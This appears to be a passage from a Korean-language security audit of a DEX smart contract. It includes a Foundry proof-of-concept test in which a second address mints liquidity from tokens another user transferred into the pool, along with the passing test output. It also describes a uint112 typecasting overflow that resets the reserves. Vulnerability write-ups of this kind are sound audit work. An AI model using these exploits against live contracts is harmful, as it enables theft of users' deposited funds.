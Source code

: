 ```javascript
        uint256 totalSupply = totalSupply(); // 그리고 이제 토큰 실제 보유량 - 추적하고 있는 양 = 해서 얼마나 보냈는지 파악하는거지.

        if (totalSupply == 0) {
            liquidity = Math.sqrt(amountX * amountY);
        } else {
            
            liquidity = Math.min(amountX * totalSupply / reserveX, amountY * totalSupply / reserveY); // 이만큼 발행한다.
        }
        
        require(liquidity > 0, "INSUFFICIENT_LIQUIDITY_MINTED");
        _mint(to, liquidity);

        update(balanceX, balanceY);
    }
```

```javascript
function test_exploit2_muang() external{
        deal(address(tokenX), address(1), 100 ether);
        deal(address(tokenY), address(1), 100 ether);
        //1번 유저가 유동성 공급
        vm.startPrank(address(1));
        {
            
            tokenX.transfer(address(dex), 100 ether);
            tokenY.transfer(address(dex), 100 ether);
        }
        vm.stopPrank();
        vm.startPrank(address(2));
        {
            dex.mint(address(2));
            console.log("addr 2 balance : ", dex.balanceOf(address(2)) / 1e18);
        }
        vm.stopPrank();
```
```shell
[PASS] test_exploit2_muang() (gas: 462184)
Logs:  
  addr 2 balance :  100
```
mint 함수가 external이고, 토큰을 컨트랙트의 balanceOf, 차이를 별도의 reserveX, Y값으로 확인할 수 있습니다. 하지만, 이를 이용해 다른 사람이 transfer한다고 가정, 이후 공격자가 mint를 이용해 토큰을 탈취할 수 있다.  

### Case 3
### 파급력  
#### | <span style="color:Red"> High</span>
### 설명
```javascript
    uint112 private reserveX; 
    uint112 private reserveY;
    ...
    function update(uint256 _balanceX, uint256 _balanceY) private {
        reserveX = uint112(_balanceX);
        reserveY = uint112(_balanceY);
    }
    ...
    liquidity = Math.min(amountX * totalSupply / reserveX, amountY * totalSupply / reserveY); // 이만큼 발행한다.
```
reserveX와 reserveY가 112bit integer인데 typecasting 시 문제가 발생할 수 있다.
uint256(type(uint112).max) + 2;값을 유동성 풀에 넣는다면 update에서 x token, y token은 각각 컨트랙트가 소유하고 있는 상태에서 typecasting에 문제가 발생하여 balanceX와 balanceY이 각각 1로 변한다. 